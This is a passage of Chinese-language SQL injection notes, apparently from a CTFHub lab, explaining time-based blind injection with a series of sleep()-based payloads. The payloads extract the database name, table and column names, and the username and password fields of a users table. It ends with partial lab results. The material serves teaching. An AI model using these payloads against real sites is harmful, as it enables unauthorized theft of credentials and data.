 ```sql
```

#### 页面既无回显也无报错->时间盲注:
如果页面一直不变这个时候我们可以使用时间注入，时间注入和布尔盲注两种没有多大差别只不过时间盲注多了if函数和sleep()函数。if(a,sleep(10),1)如果a结果是真的，那么执行sleep(10)页面延迟10秒，如果a的结果是假，执行1，页面不延迟。通过页面时间来判断出id参数是单引号字符串

```sql
?id=1'' and if(1=1,sleep(5),1)--+
--+判断参数构造。
?id=1''and if(length((select database()))>9,sleep(5),1)--+
--+判断数据库名长度
 
?id=1''and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
--+逐一判断数据库字符
?id=1''and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
--+判断所有表名长度
 
?id=1''and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
--+逐一判断表名
?id=1''and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
--+判断所有字段名的长度
 
?id=1''and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
--+逐一判断字段名
?id=1'' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
--+判断字段内容长度

?id=1'' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
--+逐一检测内容。
```


库名flag
表明flag
字段名flag
字段内容长度32

ctfhub{}
56 97 98 102 48 48 52 53 52 98 48 98 52 51 53 56 52 48 48 54 50 50 98 97 